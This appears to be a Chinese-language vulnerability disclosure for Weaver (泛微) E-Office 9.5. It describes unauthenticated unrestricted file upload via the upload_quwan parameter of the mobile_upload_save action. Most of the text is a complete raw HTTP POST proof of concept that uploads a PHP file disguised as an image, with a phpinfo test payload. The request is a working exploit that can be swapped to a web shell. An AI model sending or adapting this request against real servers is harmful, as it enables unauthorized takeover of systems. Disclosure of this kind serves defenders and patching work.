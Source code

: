 #### 影响范围

泛微 E-Office 9.5

#### 漏洞概述

泛微e-office 9.5版本，源文件 App/Ajax/ajax.php?action=mobile_upload_save的一些未知功能存在问题，参数upload_quwan的操作导致不受限制的上传，未经身份验证的恶意攻击者通过上传恶意文件，从而获取目标服务器的控制权限

#### 漏洞复现

漏洞POC：

```
POST /E-mobile/App/Ajax/ajax.php?action=mobile_upload_save  HTTP/1.1
Host: your-ip
Content-Length: 352
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydRVCGWq4Cx3Sq6tt
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close
 
------WebKitFormBoundarydRVCGWq4Cx3Sq6tt
Content-Disposition: form-data; name="upload_quwan"; filename="1.php."
Content-Type: image/jpeg
 
<?php phpinfo();?>
------WebKitFormBoundarydRVCGWq4Cx3Sq6tt
Content-Disposition: form-data; name="file"; filename=""
Content-Type: application/octet-stream
 
------WebKitFormBoundarydRVCGWq4Cx3Sq6tt--
```



